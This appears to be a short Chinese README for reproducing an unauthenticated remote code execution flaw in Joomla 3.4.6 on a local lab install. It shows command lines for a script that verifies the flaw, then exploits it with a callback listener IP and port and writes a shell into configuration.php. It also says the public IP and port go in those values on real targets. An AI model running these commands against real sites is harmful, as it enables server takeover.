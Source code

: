 joomla 3.4.6未授权rce复现
-----

环境下载：https://downloads.joomla.org/it/cms/joomla3/3-4-6

## 漏洞复现

0、漏洞位置

http://x.x.x.x/configuration.php

影响范围：3.0.0-3.4.6

1、漏洞验证

`python3   joomla346_rce.py   -t    http://localhost:8123/joomla346/`

![](assets/poc.png)

2、漏洞利用

`python3 joomla346_rce.py -t http://localhost:8123/joomla346/ --exploit -l 127.0.0.1 -p 7878`

在真实环境下-l -p应该分别为你主机外网ip与端口

![](assets/exp.png)

执行成功后，可以看到我本地搭建的joomla3.4.6的configuration.php文件中已被写入shell

![](assets/shell.png)

